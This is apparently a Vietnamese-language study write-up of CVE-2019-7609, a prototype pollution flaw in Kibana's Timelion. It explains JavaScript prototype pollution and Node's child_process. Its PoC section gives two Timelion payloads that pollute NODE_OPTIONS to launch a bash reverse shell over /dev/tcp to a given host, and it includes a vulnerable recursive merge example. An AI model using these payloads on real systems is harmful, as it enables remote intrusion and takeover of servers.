

# CVE-2019-7609 (Kibana - Prototype poluttion)

---

> **Mô tả:** Sử dụng kĩ thuật `prototype pollution` tại chức năng `Timelion`
>
> **Version:** before 5.6.15 and 6.1 (flaw in the `Timelone visualizer`)

---

# Phân tích

## Javascript cơ bản - prototype pollution là gì

```javascript
let obj = {
  prop1: 1,
  prop2: 2
}
```

- Sử dụng thuộc tính prototype của js để tạo thêm các dạng kế thừa độc hại


- **Demo bypass authen thông qua đối tượng Object của js**


## Child Process Call trong js

- ``child_process``  có sao method : `execFileSync`, `execSync`, `fork`, `exec`, `execFile`, `spawn ()`
- Cuối cùng tất cả sẽ gọi đến `spawn` sẽ tạo ChildProcess và return giá trị.

```javascript
const { spawn } = require('child_process');

spawn('whoami').stdout.on('data', (data) => {
    console.log(`stdout: ${data}`);
});

//Output : command của whoami
```

- Sau khi module `child_process` được tạo , nó sẽ gọi đến method `spawn` , khởi tạo các tham số cần thiết của child_process và sau đó vào `normalizeSpawnArguments`
- **Tóm tắt:**
  1. Thiết lập các tham số yêu cầu của `child_process` , set các biến môi trường
  2. `Folk()` tạo child_process và `exevp` chạy lệnh command
  3. Output

---

## PoC

```javascript
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

 ```javascript
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
 ```

- Tạo biến môi trường `AAA` là câu lệnh require `child_process` sau đó chạy command reverse shell . tiếp tục sử dụng prototype pollution khởi tạo `NODE_OPTIONS` để đọc `AAA` đã set 

---

# Take Note Prototype Pollution

```javascript
var merge = function(target, source) {
    for(var attr in source) {
        if(typeof(target[attr]) === "object" && typeof(source[attr]) === "object") {
            merge(target[attr], source[attr]);
        } else {
            target[attr] = source[attr];
        }
    }
    return target;
};

var rawObject = {"a":1,"b":2}

var pollutionObject = JSON.parse('{"__proto__":{"isAdmin":1}}');

var mergeObject = merge(rawObject,pollutionObject)

var emptyObject = {}

console.log(emptyObject.isAdmin)
// 1 => isAdmin true 

// Debug
// Khi duyệt vòng lặp tới thuộc tính __proto__ :
// merge(target[__proto__],source[__proto__])
// => target[__proto__] = {isAdmin:1} => Object poluted !!!
```



- `obj[a][b] = value` khi ta control được `a` và `value` ,  lúc này set `a` thành `__proto__` và thuộc tính `b` sẽ được định nghĩa cho tất cả object tồn tại tron ứng dụng với `value` được set.
- Exploit chỉ xảy ra khi:
  - Object recursive merge
  - Property definition by path
  - Object clone
